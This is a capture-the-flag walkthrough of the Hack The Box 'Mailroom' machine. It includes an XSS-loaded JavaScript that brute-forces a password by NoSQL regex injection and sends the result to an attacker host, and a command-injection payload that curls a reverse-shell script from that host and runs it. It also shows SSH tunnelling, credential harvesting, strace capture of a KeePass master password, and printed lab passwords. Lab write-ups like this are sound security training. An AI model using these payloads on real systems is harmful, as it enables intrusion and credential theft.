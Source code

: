 # [Mailroom](https://app.hackthebox.com/machines/mailroom)

```bash
nmap -p- --min-rate 10000 10.10.11.209 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.209
```

![alt text](img/image-1.png)



While I open web applicaiton, I see some stuff here.

![alt text](img/image-2.png)



Let's do `Directory Enumeration` here.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 -x php,txt -u http://10.10.11.209/
```

![alt text](img/image-3.png)



From comment section, I see that it is actually `mailroom.htb`, let's add this into `/etc/hosts` file for resolving purposes.

![alt text](img/image-4.png)


Now, I do `Subdomain Enumeration`.
```bash
wfuzz -u http://10.10.11.209 -H "Host: FUZZ.mailroom.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 7746
```

![alt text](img/image-5.png)


I found `git.mailroom.htb`, let's add this also into `/etc/hosts` file.

![alt text](img/image-6.png)


While I exploring this `Gitea`, found  `staffroom` repository, and there is `auth.php` file contains `subdomain` which is forbidden to me.

![alt text](img/image-7.png)


That's forbidden, may be we need to acccess here, from machine itself `localhost`.

![alt text](img/image-8.png)


While enumeration of web application, I find `XSS` on `contact.php`.

![alt text](img/image-9.png)

XSS payload triggered.

![alt text](img/image-10.png)



From `Source Code` review of application, I see that there is `NoSQL Injection` possible, that's why I will do `NoSQL Injection` attack via `XSS` as because I trigged XSS before and I can submit malicious `.js` file into here by adding `src` attribute.


`NoSQL Injection` is possible here.

![alt text](img/image-11.png)


Which means I can submit such a `NoSQL Injection` payload here.
```bash
email[$ne]=dr4ks@mailroom.htb&password[$ne]=dr4ks
```


Now, it's time to write malicious script which triggered by `XSS` vulnerability.
```javascript
var password = "";
var characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#%:;<>@_=';

for (var i = 0; i < characters.length; i++) {

    var req = new XMLHttpRequest();
    req.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    req.send("email=tristan@mailroom.htb&password[$regex]=" + password + characters[i] + ".*");

    if (req.responseText.length == 130) {
        password += characters[i];
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("GET", "http://10.10.14.18:8080/?pass=" + password, true);
        exfil_req.send();
        i = 0;
    }
}

var done_req = new XMLHttpRequest();
done_req.open("GET", "http://10.10.14.18:8080/?done=" + password, true);
done_req.send();
```


First, I need to open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-13.png)


Now, I submit below payload to `contact.php` then trigger this `XSS` vulnerability.
```bash
<script src="http://10.10.14.18:8080/dr4ks.js"></script>
```

![alt text](img/image-12.png)


From output of `HTTP.SERVER` logs, I can see password of `tristan@mailroom.htb` user.


Let's check this via `ssh`.

tristan: 69trisRulez!

![alt text](img/image-14.png)


While we look at `Source Code`, we saw `staff-review-panel.mailroom.htb` which we add into `/etc/hosts` file but can't see.

Now, as we have connection, we create `tunnel` via `Dynamic Port Forwarding` by using `ssh` command.
```bash
ssh -D 1080 tristan@mailroom.htb
```

![alt text](img/image-15.png)


Now, I can see web application.

![alt text](img/image-16.png)


I enter credentials of `tristan@mailroom.htb` as email and password for this, there's `2FA` token is implemented.

![alt text](img/image-17.png)


For checking my emails, I look at `/var/mail/tristan` file to see messages.

![alt text](img/image-18.png)


I go to this link and browse and successfully authenticated to web application as below.

![alt text](img/image-19.png)


While looking at this web application, I find `Blind Command Injection` by using `sleep` command for injecting into below input.

![alt text](img/image-20.png)


Let's create `.sh` reverse shell file on attacker machine and run this script via `staff-review-panel.mailroom.htb` application.

First, I create such below malicious `.sh` script on my machine.

![alt text](img/image-21.png)


Then, open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-22.png)

Finally, I submit below payload into this input.
```bash
curl http://10.10.14.18:8080/dr4ks.sh -o /tmp/dr4ks.sh ; bash /tmp/dr4ks.sh
```

![alt text](img/image-23.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-24.png)


While looking at files and directories on this machine, I found `config` file on `/var/www/staffrom/.git` directory which has sensitive information about `matthew` user.

![alt text](img/image-25.png)


matthew: HueLover83#


Let's switch to this user via `su` command.
```bash
su - matthew
```

user.txt

![alt text](img/image-26.png)


While I run `ps auxww`, I see that `perl` programming language runs `kpcli` (KeyPass).

![alt text](img/image-27.png)


Let's `debug processes` via `strace` command to capture some passwords from here.


Below cmdlet, debug processes of `perl`.
```bash
while pidof perl >/dev/null; do sleep 1; done; while ! pid=$(pidof perl); do sleep 1; done && strace -p $pid -o out1; strace -p $pid -o out2
```

![alt text](img/image-28.png)


Let's read this files called `out1` and `out2`. So , we can say that `out1` file is empty for us.


Let's look at `out2` file to find juicy info.

I see that `process` opens a file `personal.kdbx`.

![alt text](img/image-29.png)


I guess that if this file is opened, there should be password, let's search this.

![alt text](img/image-30.png)

There's string that says `Please provide the master password`, after this all `write()` method values are our password of `.kdbx` file.

Password: !sEcUr3p4$$w0rd9


Let's open `personal.kdbx` file via this password.

![alt text](img/image-31.png)

I found `root` password from `.kdbx` file.

root: a$gBa3!GA8


root.txt

![alt text](img/image-32.png)

